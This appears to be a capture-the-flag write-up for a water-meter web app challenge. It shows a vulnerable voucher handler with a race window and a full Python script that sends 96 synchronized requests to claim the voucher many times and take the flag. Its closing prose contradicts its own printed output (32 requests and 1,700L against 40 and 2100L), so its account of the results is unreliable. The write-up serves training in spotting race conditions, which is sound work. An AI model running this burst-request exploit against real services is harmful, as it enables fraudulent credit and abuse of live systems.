


# Water Hammer

The web app (`http://web.secleaf.xyz:8880/`) simulates a municipal water meter dashboard. Registering an account gives you a starting balance of 100 litres. There's a button to open the "Reserve Valve" at `/valve/open`, but clicking it complains that you need at least 1,000 litres to unlock it.

There's also a one-time promo voucher worth 50L. Even if you claim it, you're only at 150L, and subsequent claims get rejected with `Voucher already claimed`.

### Spotting the Race Window
Browsing to `/billing-code` conveniently showed the backend Python handler for `/voucher/redeem`:



```python
@app.post("/voucher/redeem")
@login_required
@limit_inflight
def redeem():
    user = current_user()
    if user["voucher_claimed"]:
        return jsonify(ok=False, error="Voucher already claimed."), 409
    
    contact_billing(user["id"])  # <--- network lag / artificial delay
    
    with closing(db()) as conn, conn:
        conn.execute(
            "UPDATE users SET litres = litres + ?, voucher_claimed = 1 WHERE id = ?",
            (VOUCHER_LITRES, user["id"]),
        )
    return jsonify(ok=True, message=f"{VOUCHER_LITRES} litres credited.")
```

That `contact_billing()` call sitting squarely between the check (`user["voucher_claimed"]`) and the SQL update is a classic race condition window. The decorator `@limit_inflight` throttles concurrent requests per process, but there is zero row-level DB locking. 

If we blast a burst of synchronized requests simultaneously, a bunch of worker threads can evaluate `voucher_claimed == 0` before the first one finishes `contact_billing()` and commits the update.

### Exploitation
To ensure all requests hit the server at the exact same millisecond, I used Python's `threading.Barrier` to synchronize 96 concurrent HTTP sessions:

```python
import concurrent.futures, threading, uuid, requests, re

BASE = "http://web.secleaf.xyz:8880"
BURST = 96

# Spin up a fresh account
s = requests.Session()
uname = f"racer_{uuid.uuid4().hex[:6]}"
s.post(f"{BASE}/register", data={"username": uname, "password": "Password123!"}).raise_for_status()

# Clone the session cookie across all threads
cookies = s.cookies.get_dict()
clients = [requests.Session() for _ in range(BURST)]
for c in clients:
    c.cookies.update(cookies)

barrier = threading.Barrier(BURST)

def fire(client):
    barrier.wait()
    try:
        return client.post(f"{BASE}/voucher/redeem", timeout=15).status_code
    except:
        return 500

with concurrent.futures.ThreadPoolExecutor(max_workers=BURST) as pool:
    results = list(pool.map(fire, clients))

print(f"[+] 200 OKs: {results.count(200)}")

# Check balance and grab flag
page = s.get(f"{BASE}/").text
litres = int(re.search(r'<b id="litres">(\d+)</b>', page).group(1))
print(f"[+] Balance: {litres}L")

if litres >= 1000:
    flag = s.post(f"{BASE}/valve/open").json().get("flag")
    print(f"[!] Flag: {flag}")
```

### Result
Ran the exploit script:
```bash
$ python3 solve.py
```



```text
[+] 200 OKs: 40
[+] Balance: 2100L
[!] Flag: SecLeaf{ch3ck_f1r5t_wr1t3_l4t3r_b00m}
```

32 requests squeezed into the window before the database locked, catapulting the balance to 1,700L and dropping the flag.
